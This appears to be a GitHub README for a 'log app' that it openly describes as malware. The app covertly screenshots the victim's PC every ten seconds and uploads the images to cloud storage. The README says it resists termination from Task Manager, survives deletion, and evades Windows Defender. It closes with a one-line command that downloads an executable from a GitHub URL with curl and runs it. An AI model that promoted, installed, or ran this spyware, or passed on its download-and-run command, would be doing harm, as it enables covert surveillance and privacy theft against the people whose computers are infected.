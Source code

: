 # log app

The log.exe and log_v1.0.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

The log_v1.0 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

###Windows defender will not block the malware during installation or stop it while its running.

In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt `mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/scripts-apps/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`
